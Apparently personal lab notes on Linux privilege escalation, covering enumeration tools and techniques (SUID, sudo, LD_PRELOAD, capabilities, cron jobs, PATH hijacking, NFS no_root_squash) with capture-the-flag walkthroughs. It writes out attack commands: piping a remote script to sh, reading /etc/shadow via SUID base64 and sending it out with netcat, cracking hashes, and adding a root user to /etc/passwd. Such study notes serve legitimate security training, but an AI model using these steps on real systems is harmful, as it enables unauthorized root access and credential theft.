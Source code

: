 Priv Esc? The exploitation of vulns, design flaws, or configurations in an OS or desktop app to gain unauthorized acces to resources usually restricted from users.
- Reset passwords
- Bypass access control to data
- Edit software configs
- Enable persistent access
- Change user permissions
- Execute admin commands

# Enumeration
[[hostname]]
[[uname]]
[[_proc_version]]
[[_etc_issue]]
[[ps]]
[[env]]
[[sudo]]
[[ls]]
[[id]]
[[_etc_passwd]]
[[history]]
[[ifconfig]] + [[ip]]
[[netstat]]
[[Linux/find]]
[[python]]

# Automated Enumeration
Dependent of environment, ie. Python not available on target system
-   **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
-   **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
-   **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
-   **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
-   **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

# Kernel Exploits
1. Identify kernel version
2. Search for exploit code for the kernel version
3. Configure/run the exploit
Careful, as some exploits can crash the kernel
https://www.linuxkernelcves.com/cves
Ex. 
1. `uname -r`, get kernel version
2. find appropriate CVE and exploit (CVE-2015-1328), and figure out language used
3. get file to remote host, move to a writeable directory
	1. `nc -lvnp PORT < exploit.c` -- `nc IP PORT > exploit.c`
4. follow exploit instructions (compile c and then run w/ `gcc exploit.c -o exploit` -- `./exploit.c`)

# Sudo
run a `sudo -l` to see all commands with delegated sudo privileges
[https://gtfobins.github.io/](https://gtfobins.github.io/) info on how programs with sudo rights can be leveraged

Application Functions ex. Apache server allows for `apache2 -f ...` to specify a config file, this will spit out an error of the first line of a file if its invalid, like /etc/shadow

### LD Preload
1. check for LD_PRELOAD (w/ env_keep option) `env_keep+=LD_PRELOAD`
2. Write C shell code compiled into a share object (.so extension) [[LD_PRELOAD]]
3. Run program with sudo rights and point LD_PRELOAD to the .so file


`sudo nmap --interactive` ?? apparently gives a shell


# SUID
find SUID executable files with `find / -type f -perm 4000 2>/dev/null`   then compare those executables against GTFOBins: https://gtfobins.github.io

ex. no exploit bin available but nano has SUID set
1. nano to copy passwd and shadow files
2. use `unshadow passwd.txt shadow.txt > passwords.txt`
3. upload with a wordlist to John the Ripper
OR
1. Generate a password with [[openssl]] `openssl passwd -1 -salt SALT PASS`
2. using nano, add new user to [[_etc_passwd]] with the password, give root membership
3. `su` to newly created user

Practical ex (given ssh login, low priv): 
0. hardmode it by running nmap, then brute forcing passwords with `hydra` 
1. ssh into karen's account, run `id` to get a sense of privileges
2. Based on the box, I run a `find -perm -4000...` for files that have SUID bit set (could also try `sudo -l` for other commands)
	1. Results are then checked against GTFOBins to look for an exploitable program (use SUID filter)
	2. (optional) overlook some bins because they don't seem sus
	3. find `base64` on GTFOBins, this will read out any file into base64, also has a --decode option 
3. `base64 /etc/shadow | base64 -d > shadow.txt` to write out, and then decode the shadow file (make sure you're in a writeable dir)
4. `nc ... < shadow.txt` to a listener to transfer files to local machine (send over `/etc/passwd `too) 
5. `unshadow PASSWD SHADOW` to get files into a format for John da Ripper to read
6. `john COMBINED_FILE` then spits out any found hashes (can also specify `--wordlist`, but the default works here)


# Capabilities
use `getcap / -r 2>/dev/null` to get a list of programs with a capabilities set. A capability being a delegated function of a binary / process that doesn't need to ask for a higher privilege user. 
Reference these results against GTFOBins to find attack vectors
ex. 
using a Vim `cap_setuid+ep` capability we can set our UID to root with the script listed on GTFOBins

  
# Cron Jobs
Scripts / binaries can be scheduled to run at specified times, they will run with privileges of owner (hopefully root), not of the current user
Stored in: `/etc/crontabs`
Often admins will create a cronjob for a script, eventually delete it, but never remove the cronjob, allowing us to create a custom script in its absence
Example:
1. `cat /etc/crontabs` to see potential cron jobs
2. 4 jobs are built to run every minute, 3 bash, 1 python
	-  Went down a rabbit hole trying to get a bash shell to work through the .sh files
3. find out which files might be accessible/writable, and see that the `test.py` script is non-existent
4. Create a `/tmp/test.py` script with python reverse shell from github [[Payloads]]
	 -  run into a bunch of issues getting it to run. Try debugging by check `which` on program calls needed, run the same command from terminal and see if it connects (to a listener), then try running the script with the current user and see if it connects
5. Run a listener and wait for the connection


# PATH
$PATH is an environment variable that tells Linux where to search for executables that are not built into the shell or defined with an absolute path.
`echo $PATH`  
- Look for write privileges to folders in $PATH
- is $PATH itself modifiable?
- are there existing scripts that can be leveraged to run a binary?
Example:
1. I search the system `find -perm -4000 ...` for any files that have a SUID bit set. I see `/home/murdoch`, which is also a writable directory 
2. In there we find a compiled file `test` and its originating, uncompiled version `thm.py`. With `cat thm.py` we see that it's trying to run a command called 'thm'.
3. I add this writable dir to the $PATH with `export PATH=$PATH=/home/murdoch`
4. In the same dir, (since its writable and now in PATH) I add a bash script named `thm` that cat's the flag file and `chmod 777 thm`.
5. I run the `test` file which has SUID bit set, and it accesses my injected `thm` command, now running as root and am able to cat the flag

  
# NFS
Network File Sharing config is viewable in `/etc/exports`. Often share folders and remote management tools like SSH and Telnet can be leveraged for root.
(by default NFS will strip all permissions on files and drop user to "nfsnobody")  
`cat /etc/exports` if the `no_root_squash` option is added on a writable share, then we can create an executable with SUID set.
`showmount -e TARGET` to list share folders on the target (from local)
`mount -o rw TARGET:/SHARE_DIR /MY_DIR` to copy over the share to local
Example:
1. search system for exportable shares with `cat /etc/exports`   
2. Notice that they all have `no_root_squash` set. Look into each to find which is executable from, tried /tmp as this is usually an accessible dir, which proved right
3. back on local `showmount` and then create a `/tmp/backups` dir to copy over the share with `mount -o rw TARGET:/tmp /tmp/backups`
4. Create a executable here that sets as root and opens a shell, (see [[gcc]]) then `gcc test.c -o test -w`
5. `chmod 4700 test` to grant it SUID bit so that any user can run it on the target system
6. See that the file has been copied over to target, run it as normal user, then get root shell :)


# Capstone
1. No obvious exploits for kernel version (`uname -a` + web search), no Cron Job(`/etc/crontab`), no NFS (`/etc/exports`), nothing apparent in PATH (did search these for a bit, but should've just ran a SUID search first to avoid the rabbit hole), and no sudo on user `leonard`.
2. `bash -li` and saw there was history, got a clue from this seeing as user `missy` was accessed recently
3. ran a `find -perm -4000` and saw SUID was set on Base64 (again)
4. used `base64` to read and send `/etc/shadow` to my local with nc, along with `/etc/passwd`. Fed to Johnny who got me the password for missy
5. got the first flag from missy `/home/Documents` directory
	-  also skipped part 2 by just base64'ing out flag2.txt from `/home/rootflag.txt`
6. ran a `sudo -l` for missy and saw she had sudo on `find`
7. compared this to GTFOBins which gave a script to get root shell through` find`
8. activated root shell and ran a find on `flag2.txt`, got flag